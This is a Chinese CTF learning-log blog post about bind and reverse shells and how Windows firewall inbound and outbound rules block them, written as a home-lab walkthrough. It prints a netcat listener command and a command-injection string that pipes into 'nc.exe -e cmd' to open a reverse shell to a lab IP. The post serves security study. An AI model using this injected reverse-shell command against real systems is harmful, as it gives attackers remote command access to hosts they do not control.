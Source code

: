 ```yaml
---
title: 20250113CTF学习笔记39
date: 2025-01-13
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true























---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第55天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 防火墙出入站

又书接上回，感觉这样下去进度太慢了。

1. 从下图我们可以看到，我们是用正向连接的方式，在虚拟机中，在输入框中拼接了命令，然后左侧用`netstat -an`查看端口占用情况，用`ipconfig`查看内网IP地址，我们在右侧用宿主机尝试连接，因为宿主机也是Windows，所以用的是nc.exe的命令，如果控制端是用的Linux，就要用ncat命令：

   ![image-20250113211205127](/img/ctfLearn/image-20250113211205127.png)

   从下图可以看到nc.exe被执行了。

   ![image-20250113212103697](/img/ctfLearn/image-20250113212103697.png)

2. 我们也可以用反向连接的方式，被控制端需要将权限主动给到我们控制端。

   首先我们需要在控制端监听5566的端口，输入以下命令

   ```
   nc.exe -lvvp 5566
   ```

   然后在虚拟机Windows，也就是被控制端中，用命令拼接的方式输入以下内容

   ```
   127.0.0.1 | C:\\Users\Administrator\Desktop\nc.exe -e cmd 192.168.8.10 5566
   ```

   ![image-20250113213043967](/img/ctfLearn/image-20250113213043967.png)

   此时发现虽然nc.exe被启动了，但是并没有占用被控制端的端口，用的是控制端的端口。



### 实际案例2：防火墙组合数据不回显-ICMP带外查询Dnslog

以上是最简单的应用，下面是加上防火墙以后的演示，最主要是要我们了解正反向连接的思路

防火墙一般分为`入站策略`、`出站策略`

- **入站策略：**检查进来的。就像门卫，检查外部网络试图进入内部网络或本地计算机的流量，按预设规则决定是否放行。
- 出站策略：检查出去的。管理内部网络设备或计算机向外部网络发送数据的行为，限制对外连接，防止数据泄露 。

### 整理思路：

1. 开启防火墙，添加入站策略，限制5566端口

   ![image-20250113220058938](/img/ctfLearn/image-20250113220058938.png)

   ![image-20250113221445221](/img/ctfLearn/image-20250113221445221.png)

2. 这种情况下，我们入站限制了5566端口，所以主动连接的方式不可以了。（试了一下其他端口是可以的）

   ![image-20250113223438444](/img/ctfLearn/image-20250113223438444.png)

3. 这种情况下只能选取第二种方案，将权限给出去。命令需要记清楚，反向连接是不能输入`-lvvp`的

   ![image-20250113224330318](/img/ctfLearn/mage-20250113224330318.png)

4. 添加出站规则，限制出站的5566端口。我们可以看到5566是出不去了

   ![image-20250113224845190](/img/ctfLearn/image-20250113224845190.png)

5. 其实这里视频演示了一个步骤，删掉入站规则的限制5566端口，然后尝试正向连接，但还是不行，因为防火墙开了以后，入站是只允许程序通讯的接口，如果限制出站，入站里面没有放行的话，是依然不能连接的。具体是因为这个防火墙有个优先级，入站比较严格，出站比较宽松。所以即使我们没有开启入站规则，也有可能进不去。

   > 这里我实验是可以连接的，我认为问题出在了他是云服务器，默认只开了仅有的几个端口可以入站，我这边是虚拟机，允许的端口数量非常多。可能差异就出现在这里。

   ![image-20250113231039098](/img/ctfLearn/image-20250113231039098.png)

6. 如果这时候我们再加一条入站允许5566端口的规则，就应该能连接了

   ![image-20250113230914339](/img/ctfLearn/image-20250113230914339.png)

